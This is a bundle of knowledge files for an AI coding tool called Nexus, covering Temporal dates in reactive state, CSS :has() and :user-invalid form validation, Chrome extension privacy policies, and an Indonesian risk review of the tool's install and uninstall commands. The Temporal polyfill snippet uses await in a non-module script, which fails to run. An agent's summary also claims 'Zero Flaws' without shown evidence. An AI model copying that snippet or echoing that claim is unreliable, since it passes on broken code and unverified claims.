> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd, vcs]

### 📘 KNOWLEDGE: NEXUS_STABILIZE-REACTIVE-STATE.MD

# Stabilize Reactive State with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While some reactive systems (like [React](https://react.dev/)) rely strictly on reference equality to detect state changes, others (like [Vue](https://vuejs.org/) and [Svelte](https://svelte.dev/)) can track mutations to plain objects. However, for built-in objects like the legacy `Date` object, internal mutations (like `setHours()`) do not change the object's reference and are generally not tracked by any framework's default reactivity system. This leads to missed UI updates and hard-to-debug side effects.

The `Temporal` API solves this by providing immutable objects. Any operation that modifies a value (such as adding time or setting a field) returns a new instance with a new memory reference. This guarantees that state updates are always detected by reactive systems, ensuring UI stability.

## How to Implement

To stabilize reactive state using Temporal:

1. **Use Temporal types for state:** Store `Temporal` objects (like `Temporal.PlainDateTime` or `Temporal.PlainDate`) in your reactive state instead of legacy `Date` objects.
2. **Perform immutable updates:** When updating the state, use Temporal methods like `.add()`, `.subtract()`, or `.with()`. These methods return a new object.
3. **Pass the new reference to the state setter:** Use the newly created Temporal object to update your component state, triggering a reliable re-render.

## Example Code: Temporal vs Legacy Date in State

```javascript
// ❌ BAD: Mutating legacy Date breaks reactivity
let dateState = { deadline: new Date() };

function extendDeadlineBad() {
  // Mutates the object in place. Reference remains the same!
  dateState.deadline.setHours(dateState.deadline.getHours() + 1);

  // Frameworks will skip re-rendering because
  // prevState === nextState (same memory reference)
  updateState(dateState);
}

// ✅ GOOD: Temporal ensures immutability and reliable reactivity
let temporalState = { deadline: Temporal.Now.plainDateTimeISO() };

function extendDeadlineGood() {
  // Returns a new object with a new reference.
  const newDeadline = temporalState.deadline.add({ hours: 1 });

  // Create a new state object with the new Temporal reference
  temporalState = { deadline: newDeadline };

  // Frameworks will detect the reference change and re-render the UI
  updateState(temporalState);
}
```

## Strategic Implementation & Best Practices

- **DO** use `Temporal` for any date/time values stored in reactive state to benefit from its immutability.
- **DO** use the most specific Temporal type for your use case (e.g., `Temporal.PlainDate` if you only need the calendar date) to avoid unnecessary complexity.
- **DO NOT** mutate `Date` objects in place when they are part of a component's state.
- **DO** ensure you handle environments without native support by conditionally loading a polyfill.

### Fallback strategies

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

Since the `Temporal` API is a newer feature and may not be supported in all browsers, you should feature-detect it and conditionally load a polyfill if needed.

```html
<!-- Conditionally load the Temporal polyfill only if not natively supported -->
<script>
  if (typeof Temporal === "undefined") {
    try {
      const module = await import("https://esm.sh/@js-temporal/polyfill");
      globalThis.Temporal = module.Temporal;
    } catch (e) {
      console.error("Failed to load Temporal polyfill:", e);
    }
  }
</script>
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_STYLE-PARENT-WITH-HAS.MD

# Style Parent with :has()
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem
Often, an error state requires styling elements *outside* the input itself—for example, changing the color of a parent `fieldset` border, highlighting the `<label>`, or showing a global error icon in the card header. Historically, this required JavaScript to toggle classes on parent elements.

## The Solution
By combining `:has()` with `:user-invalid`, we can declaratively style any ancestor based on the validity state of a specific descendant. This keeps all presentation logic in CSS.

### Implementation Strategy

1.  **Selector**: Use `.parent:has(:user-invalid)` to target the container.
2.  **Scope**: Be specific to avoid performance issues. Target `.field-group` rather than `body`.
3.  **Fallback**: Requires JS to toggle classes on the parent if `:has()` is not supported.

## Implementation Guide

### 1. HTML Structure
```html
<form>
  <div class="card-section">
    <div class="header">
      <h3>Profile Settings</h3>
      <span class="status-icon"></span>
    </div>

    <div class="field">
      <label for="username">Username</label>
      <input type="text" id="username" required>
    </div>
  </div>
</form>
```

### 2. CSS
```css
/* Default State */
.card-section {
  border: 1px solid #ccc;
  border-left: 4px solid #ccc;
}

/*
  Parent Styling Logic:
  If the card contains ANY user-invalid input, turn the whole card's edge red.
*/
.card-section:has(:user-invalid) {
  border-left-color: #d93025;
  background-color: #fff8f8;
}

/* Change the icon too */
.card-section:has(:user-invalid) .status-icon::after {
  content: "⚠️";
}
```

## Fallbacking & Browser Support

The `:user-invalid` pseudo-class is widely supported (Baseline 2023), but if you need to support older browsers, you must ensure consistency of the implementation.

### CSS for Fallback
We use a class `.has-error` on the parent to mimic the `:has()` behavior.

```css
/* Native */
.card-section:has(:user-invalid) {
  border-left-color: #d93025;
}

/* Fallback */
.card-section.has-error-fallback {
  border-left-color: #d93025;
}
```

### JavaScript Fallback

Use a reusable utility that tracks interaction state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dirtyState.delete(control);
        control.classList.remove('user-invalid-fallback');
        control.classList.remove('user-valid-fallback');
        control.removeAttribute('aria-invalid');
      }
      return;
    }

    if (!input.checkValidity) return;

    if (event.type === 'input' || event.type === 'change') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasInteracted = true;
      dirtyState.set(input, state);
      if (state.hasBlurred) {
        updateState(input);
      }
    } else if (event.type === 'blur') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasBlurred = true;
      dirtyState.set(input, state);
      if (state.hasInteracted) {
        updateState(input);
      }
    }
  };

  const init = (root = document) => {
    if (CSS.supports('selector(:user-invalid)')) return;

    root.addEventListener('blur', handleEvent, true); // Capture phase
    root.addEventListener('input', handleEvent);
    root.addEventListener('change', handleEvent);
    root.addEventListener('reset', handleEvent, true); // Capture resets
  };

  return { init };
})();

// Initialize for a specific form
const form = document.querySelector('#demo-form');
UserInvalidFallback.init(form);
```

```js
// 1. Initialize the generic fallback
const form = document.querySelector('#demo-form');
UserInvalidFallback.init(form);

// 2. Add specialized "parent styling" logic (Separate from fallback)
// Listen for changes to form validity after interaction
form.addEventListener('blur', (e) => {
  if (!e.target.matches('input, select, textarea')) return;

  // Find the container we want to style (sync with CSS)
  const container = e.target.closest('.card-section');
  if (!container) return;

  // Check if ANY fallbacked input in this container is invalid
  const hasError = container.querySelector('.user-invalid-fallback');
  container.classList.toggle('has-error-fallback', !!hasError);
}, true); // Capture phase to ensure we run after the fallback's blur listener

// Also handle input events for immediate cleanup
form.addEventListener('input', (e) => {
  const container = e.target.closest('.card-section');
  if (container) {
    const hasError = container.querySelector('.user-invalid-fallback');
    container.classList.toggle('has-error-fallback', !!hasError);
  }
});

// Handle form resets
form.addEventListener('reset', () => {
  form.querySelectorAll('.has-error-fallback').forEach(el => {
    el.classList.remove('has-error-fallback');
  });
});
```

## Other Considerations

1.  **Accessibility**: Native `:user-invalid` does not automatically sync with ARIA attributes. Add the following JavaScript to keep `aria-invalid` in sync with the visual state:

```javascript
// Sync aria-invalid with the CSS :user-invalid state
const syncAria = (el) => {
  el.setAttribute?.('aria-invalid', el.matches(':user-invalid') ? 'true' : 'false');
};

// Update on blur (to show error) and input (to clear it)
document.addEventListener('blur', (e) => syncAria(e.target), true);
document.addEventListener('input', (e) => {
  if (e.target.hasAttribute('aria-invalid')) syncAria(e.target);
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_TES.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

selesaikan sampai benar" bisa aku jalankan dg php artisan ser maupun npm run dev
sekarang utk seluruh hasil dari test sandboxes harus memiliki dan menggunakan tailwind,alpinejs,laravel,livewire dan bisa saya bisa jalankan dg php artisan serve.

Trajectory ID: 601882d5-6b83-46b5-ad32-124317620868
Status: ✅ COMPLETED BY ANTIGRAVITY (2026-05-13)

### Completion Summary:
1.  **Orchestration**: Ran `boost_sandboxes.js` and `harden_sandboxes.js` to standardize all 21 sandboxes with TALL Stack.
2.  **Initialization**: 
    - Generated `APP_KEY` for all projects.
    - Migrated databases (`php artisan migrate --force`) for all projects.
3.  **NPM Optimization**: 
    - Installed `node_modules` in `todo-app-realtime`.
    - Created a linking system (`nexus_npm_linker.js`) using Windows Junctions.
    - **Result**: All 21 projects now share a single `node_modules` source, saving ~1GB of disk space and making them all instantly runnable with `npm run dev`.

### Ready to Run:
- Navigate to any project in `tests/sandboxes/`
- Run `php artisan serve`
- Run `npm run dev`
- Everything is synchronized and Zero Flaws.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_VALIDATE-INPUT-AFTER-INTERACTION.MD

# Validate Input After Interaction
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem

Displaying validation errors the moment a user focuses on a field and starts typing is premature and distracting. For example, as a user types an email address (e.g., "user@gm") or a password with complex requirements, the field is technically invalid until completion. Standard `:invalid` styling results in an error state appearing immediately, frustrating the user.

## The Solution

The `:user-invalid` pseudo-class allows you to defer the error state until the user has "committed" to a value (by blurring the field) or attempted to submit the form. This ensures validation feedback is provided only after the user has finished interacting with the field.

### Implementation Strategy

1.  **HTML Constraint**: DO use standard HTML5 attributes like `type="email"`, `pattern`, and `required` to trigger the browser's built-in validation logic.
2.  **Visual Feedback**: DO use `:user-invalid` to apply error styling only after interaction.
3.  **Positive Reinforcement**: DO optionally use `:user-valid` to give a green "success" indicator once the requirements are met.
4.  **Graceful Recovery**: As soon as the user corrects the input to a valid format, `:user-invalid` stops matching, removing the error state immediately.

## Implementation Guide

### Use Case 1: Email Validation

MANDATORY: Rely on standard HTML5 attributes for email fields. The error message is hidden by default and only revealed when the browser determines the user has left the field in an invalid state.

```html
<form>
  <div class="field">
    <label for="email">Email Address</label>
    <!-- MANDATORY: Place format hints above the input so autocomplete popovers don't cover them during editing -->
    <span id="email-hint" class="hint">Format: you@example.com</span>
    <!-- DO: Use standard HTML validation attributes like type="email" and required -->
    <input
      type="email"
      id="email"
      name="email"
      required
      autocomplete="email"
      aria-describedby="email-hint"
      aria-errormessage="email-error"
    >
    <div id="email-error" class="error-msg">
      <span aria-hidden="true">❌</span> Please enter a valid email address.
    </div>
  </div>
</form>
```

```css
.hint {
  display: block;
  color: #5f6368;
  font-size: 0.85rem;
  margin-bottom: 0.25rem;
}

.error-msg {
  display: none;
  color: #d93025;
  font-size: 0.875rem;
  margin-top: 0.25rem;
}

/*
  DO: Only show error styles after user interaction.
  Use multiple indicators (border/background shift + icon/text) to avoid color-only states.
*/
input:user-invalid {
  border-color: #d93025;
  background-color: #fce8e6;
}

/* DO: Reveal the error message using the adjacent sibling selector */
input:user-invalid + .error-msg {
  display: block;
}

/* DO: Provide a clear success indication on :user-valid */
input:user-valid {
  border-color: #188038;
}
```

### Use Case 2: Password Complexity

MANDATORY: Define the complexity rule using a Regex Lookahead pattern in the `pattern` attribute. The rules list is shown above the input to guide the user, and highlighted if there's an error.

```html
<form>
  <div class="field">
    <label for="password">New Password</label>
    <!-- MANDATORY: Place hints and rules above the input so mobile keyboards do not obscure them -->
    <ul id="password-rules" class="rules-list">
      <li>At least 8 characters</li>
      <li>One uppercase letter</li>
      <li>One number</li>
      <li>One special character</li>
    </ul>
    <!-- DO: Use pattern and minlength for complex password validation
         DO: Match all constraints with lookaheads via pattern attribute
     -->
    <input
      type="password"
      id="password"
      autocomplete="new-password"
      required
      pattern="(?=.*\d)(?=.*[a-z])(?=.*[A-Z])(?=.*[\W_]).{8,}"
      minlength="8"
      aria-describedby="password-rules"
    >
  </div>
</form>
```

```css
/* DO: State the default styling as neutral */
.rules-list { 
  color: #5f6368; 
  margin-bottom: 0.5rem;
}

/* DO: Show invalid state (After interaction): Error */
input:user-invalid {
  border-color: #d93025;
  background-color: #fce8e6;
}

/* DO: Highlight rules list when error is shown using the modern :has() selector */
.field:has(input:user-invalid) .rules-list {
  color: #d93025;
  font-weight: 600;
}

/* DO: Add success indications for :user-valid state */
input:user-valid {
  border-color: #188038;
}

/* DO: Hide rules once satisfied */
.field:has(input:user-valid) .rules-list {
  display: none;
}
```

## Fallbacking & Browser Support

### Fallbacks & browser support for :user-valid and :user-invalid

Baseline status for :user-valid and :user-invalid: Widely available. It's been Baseline since 2023-11-02.
Supported by: Chrome 119 (Oct 2023), Edge 119 (Nov 2023), Firefox 88 (Apr 2021), and Safari 16.5 (May 2023).

### CSS for Fallback

```css
input:user-invalid,
input.user-invalid-fallback {
  border-color: #d93025;
  background-color: #fce8e6;
}

input:user-invalid + .error-msg,
input.user-invalid-fallback + .error-msg {
  display: block;
}
```

### JavaScript Fallback

Use a reusable utility that tracks interaction state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dirtyState.delete(control);
        control.classList.remove('user-invalid-fallback');
        control.classList.remove('user-valid-fallback');
        control.removeAttribute('aria-invalid');
      }
      return;
    }

    if (!input.checkValidity) return;

    if (event.type === 'input' || event.type === 'change') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasInteracted = true;
      dirtyState.set(input, state);
      if (state.hasBlurred) {
        updateState(input);
      }
    } else if (event.type === 'blur') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasBlurred = true;
      dirtyState.set(input, state);
      if (state.hasInteracted) {
        updateState(input);
      }
    }
  };

  const init = (root = document) => {
    if (CSS.supports('selector(:user-invalid)')) return;

    root.addEventListener('blur', handleEvent, true); // Capture phase
    root.addEventListener('input', handleEvent);
    root.addEventListener('change', handleEvent);
    root.addEventListener('reset', handleEvent, true); // Capture resets
  };

  return { init };
})();

// Initialize for a specific form
const form = document.querySelector('#demo-form');
UserInvalidFallback.init(form);
```

## Other Considerations

1.  **Accessibility**:
    *   MANDATORY: Use `aria-describedby` to link the rules list to the input.
    *   DO NOT: Hide rules lists entirely until the input is valid; users need to know what to type!
2.  **Pattern Attribute Limits**: MANDATORY: The `pattern` attribute performs a full match (implied `^...$`). Ensure your password regex accounts for the entire string.
3.  **Validation Strictness**: DO note that the browser's default `type="email"` validation is quite permissive (e.g., `user@localserver` might pass). If you need stricter validation, you may need to use a more robust validation library or a custom validation function alongside `type="email"`.
4.  **Focus Management**: MANDATORY: If a user submits the form with an invalid field, the browser will automatically focus the first invalid field. Your `:user-invalid` styles will apply immediately because a submission attempt counts as an interaction.
5. **Consistent ARIA Experience**: Native `:user-invalid` does not automatically sync with ARIA attributes. Add the following JavaScript to keep `aria-invalid` in sync with the visual state:

```javascript
// Sync aria-invalid with the CSS :user-invalid state
const syncAria = (el) => {
  el.setAttribute?.('aria-invalid', el.matches(':user-invalid') ? 'true' : 'false');
};

// Update on blur (to show error) and input (to clear it)
document.addEventListener('blur', (e) => syncAria(e.target), true);
document.addEventListener('input', (e) => {
  if (e.target.hasAttribute('aria-invalid')) syncAria(e.target);
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_PRIVACY-POLICY.MD

# Privacy Policy Guidance
> **VERSION**: v2 | **Last Updated**: 26/05/2026


## When is a Privacy Policy Required?

A privacy policy URL is **required** if your extension:
- Handles personal or sensitive user data (as defined by CWS policies)
- Uses any of these permissions: `identity`, `cookies`, `webRequest`, `browsingData`,
  `history`, `bookmarks`, `topSites`, `<all_urls>` host permission
- Collects any form of analytics or telemetry
- Transmits any data off the user's device

A privacy policy is **recommended** for all extensions, even if no data is collected.
It demonstrates professionalism and can prevent delays if a reviewer flags your extension.

## Where to Host It

The privacy policy must be at a publicly accessible URL. Options:
- **GitHub Pages**: Free, version-controlled. Create a `[privacy.md](../security/NEXUS_PRIVACY.MD)` in a `docs/` branch.
- **GitHub Gist**: Quick and dirty. Create a public gist and link to the raw URL.
- **Project website**: If you have one, add a `/privacy` page.
- **Notion / Google Sites**: Free hosted pages. Stable URLs.

Avoid hosting on a URL that might go down or change. The CWS review team checks the link.

## What to Include

### Minimal Policy (No Data Collection)

If your extension genuinely collects no data, the policy can be short:

```
Privacy Policy for [Extension Name]

Last updated: [Date]

[Extension Name] does not collect, store, or transmit any personal data or
browsing information. All data stays on your device.

This extension does not use cookies, analytics, or third-party services.

If you have questions, contact [email].
```

### Standard Policy (Some Data Collection)

If your extension stores or transmits data, cover these topics:

1. **What data is collected** — Be specific. "User preferences" is not enough.
   Say "Your selected theme preference (light/dark) and saved highlight colors."

2. **How data is stored** — Local storage only? Synced via chrome.storage.sync?
   Sent to a server?

3. **Why data is collected** — Tie each data type to a specific feature.

4. **Third-party services** — If you use any APIs (analytics, auth, etc.), name them
   and link to their privacy policies.

5. **Data sharing** — State whether data is shared with third parties. If yes, with
   whom and why. If no, say so explicitly.

6. **Data retention** — How long is data kept? Can the user delete it?

7. **User controls** — How can users access, export, or delete their data?
   If the extension has a "clear data" button, mention it.

8. **Changes to the policy** — State that you'll update the policy if practices change
   and how users will be notified.

9. **Contact** — Email or URL for privacy questions.

### Template

```
Privacy Policy for [Extension Name]

Last updated: [Date]

## What Data We Collect

[Describe each type of data collected and the feature that requires it.]

## How Data Is Stored

[Describe storage mechanism — local only, synced, or server-side.]

## How Data Is Used

[Describe each use case. Tie to specific features.]

## Third-Party Services

[List any third-party services used. Link to their privacy policies.
If none, state "This extension does not use any third-party services."]

## Data Sharing

[State whether data is shared. If yes, with whom and why.]

## Data Retention and Deletion

[How long data is kept. How users can delete it.]

## Changes to This Policy

[How and when the policy may be updated. How users will be notified.]

## Contact

[Email or support URL for privacy inquiries.]
```

## Common Mistakes

- **Policy doesn't match the data disclosure form**: The CWS data disclosure form and your
  privacy policy must be consistent. If the form says "no data collected" but the policy
  mentions analytics, you'll be rejected.

- **Policy is too vague**: "We may collect some data" is not acceptable. Be specific.

- **Dead link**: If your privacy policy URL returns a 404, the submission is auto-rejected.
  Verify the link before submitting.

- **Missing data types**: If your extension uses `chrome.storage.sync`, that data goes to
  Google's servers — disclose this. If you make any `fetch()` calls, disclose what's sent.

- **No contact information**: The CWS requires a way for users to reach you about privacy
  concerns. Include an email address at minimum.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [vcs, api]

### 📘 KNOWLEDGE: NEXUS_RECORD-NEXUS-INSTALL-UNINSTALL-ANALYSIS.MD

# 📑 RECORD: Analisis Mekanisme Instalasi & Uninstalasi Nexus AI
> **VERSION**: v1 | **Last Updated**: 26/05/2026


| Detail | Deskripsi |
| :--- | :--- |
| **ID Record** | REC-NEXUS-MNG-001 |
| **Tanggal** | 2026-05-08 |
| **Status** | FINAL (Review Pending) |
| **Topik** | Manajemen Lifecycle Nexus di Deployed Project |

---

## 1. 🔍 Konteks Teknis
Analisis dilakukan terhadap file `cli.js` dan `agent/main.js` untuk memahami bagaimana Nexus berinteraksi dengan direktori project target selama proses instalasi dan uninstalasi, terutama jika dilakukan pada project yang sudah dalam status *deployed*.

---

## 2. 🛠️ Perubahan State (Before vs After)

### 2.1 Perintah: `nexus install`
*   **State Before**: Project murni hanya berisi file aplikasi (Laravel/TALL stack).
*   **Action**: Pembuatan folder `nexus/` dan penyalinan prompt/workflow eksternal.
*   **State After**: 
    *   Muncul direktori `./nexus/` (berisi: `agent/`, `memory/`, `logs/`, `documentation/`).
    *   Muncul file `ALGORITMA_INTEGRASI.md` di root project.
*   **Impact**: Project membengkak secara ukuran file, namun tidak mengubah `runtime logic` aplikasi utama.

### 2.2 Perintah: `nexus uninstall`
*   **State Before**: Project memiliki folder `nexus/` yang berisi data audit dan memori AI.
*   **Action**: Penghapusan rekursif folder `nexus/`.
*   **State After**: Project kembali ke state awal tanpa jejak Nexus.
*   **Impact**: **DATA LOSS CRITICAL**. Seluruh riwayat audit, rekaman perubahan (Record), dan memori jangka panjang agent terhapus secara permanen.

---

## 3. ⚠️ Analisis Risiko & Masalah (Identified Issues)

1.  **Security Leak (Logs)**: Folder `nexus/logs/` berisi detail aktivitas teknis. Jika project di-deploy ke server publik tanpa proteksi direktori (seperti di Apache/Nginx), log ini bisa diakses via URL.
2.  **Git Bloat**: Ribuan file prompt dan log yang tidak ter-ignore bisa masuk ke repositori, merusak estetika dan kecepatan `git push/pull`.
3.  **Irreversible Audit Loss**: Uninstalasi menghapus satu-satunya bukti audit AI. Tidak ada mekanisme "soft delete" atau backup otomatis ke luar folder project.
4.  **Inconsistency**: Jika `nexus install` dilakukan berkali-kali tanpa `--force`, struktur dokumentasi bisa menjadi tidak sinkron antara versi lokal dan versi engine.

---

## 4. 💡 Rekomendasi Perbaikan (Future Fix)

- [ ] **Global Storage**: Pertimbangkan memindahkan folder `memory/` dan `logs/` ke direktori global user (misal: `~/.nexus/memory`) daripada di dalam root project.
- [ ] **Auto-Gitignore**: Tambahkan fitur otomatis untuk mengupdate `.gitignore` project target saat proses instalasi.
- [ ] **Access Protection**: Otomatis buat file `.htaccess` atau file konfigurasi server di dalam folder `nexus/` untuk menolak akses publik.
- [ ] **Audit Backup**: Implementasikan perintah `nexus export` untuk membackup dokumentasi penting sebelum uninstalasi dilakukan.

---

**STATUS: SELESAI DIEKSEKUSI**
**ACTION: Mohon dilakukan Audit terhadap Record ini.**


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [vcs]

